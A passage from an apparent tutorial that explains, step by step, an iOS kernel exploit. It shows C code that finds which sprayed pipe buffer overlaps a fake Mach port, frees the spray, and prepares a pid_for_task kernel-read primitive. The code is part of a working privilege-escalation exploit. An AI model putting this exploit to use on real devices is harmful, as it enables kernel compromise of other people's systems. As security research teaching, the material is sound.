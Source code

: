     	}
{% endhighlight %}
#### Step 15: Find overlapping pipefds

Next, we need to identify that out of the all the pipe buffers that we created, which one overlaps with the fake port. To do that, we use the API **mach_port_kobject** to get the **IKOT_TYPE** value of the **fake_port** and this value should be the index of the pipe, because if you remember, in Step 4, we were creating ports within the pipe buffers and for each port that we created, we were overalapping the **IKOT_TYPE** with the index of the pipe buffer. Using this, we can identify which **pipefds** our fake port is overlapping with.

{% highlight c %}
    // 15\. Check which pair of pipefds overlaps our port using mach_port_kobject(). The
    	// returned type value will be the lower 12 bits of the ipc_port's ip_bits field, which
    	// we've set to the index of the pipe overlapping the port during our spray.
    	//
    	// This is the third and final risky part: we could panic if our fake port doesn't actually
    	// point into our pipe buffers. After this, though, it's all smooth sailing.
    	natural_t type;
    	mach_vm_address_t addr;
    	kr = mach_port_kobject(mach_task_self(), fake_port, &type, &addr);
    	if (kr != KERN_SUCCESS) {
    		ERROR("%s returned %d: %s", "mach_port_kobject", kr, mach_error_string(kr));
    		ERROR("could not determine the pipe index of our port");
    	}
    	size_t pipe_index = type;
    	INFO("port is at pipe index %zu", pipe_index);
    	// Get the pipefds that allow us to control the port.
    	int *port_pipefds = pipefds_array + 2 * pipe_index;
    	pipefds[0] = port_pipefds[0];
    	pipefds[1] = port_pipefds[1];
    	port_pipefds[0] = -1;
    	port_pipefds[1] = -1;
{% endhighlight %}
#### Step 16: Clean up the unused memory

{% highlight c %}
    // 16\. Clean up unneeded resources: terminate the ith_voucher thread, discard the filler
    	// ports, and close the sprayed pipes.
    	thread_terminate(thread);
    	destroy_ports(filler_ports, filler_port_count);
    	free(filler_ports);
    	close_pipes(pipefds_array, pipe_count);
    	free(pipefds_array);
{% endhighlight %}
#### Step 17: Set up primitive to find the address of the base port

We have a fake port overlapping with the content of the pipe buffer, that we can read and write into since we know which pipe buffer is it. Now our task is to create a **fake port** such that we can use the **pid_for_task()** technique with it to read 4 bytes of kernel memory at a time. This technique was discussed in the Part 1 of this article.
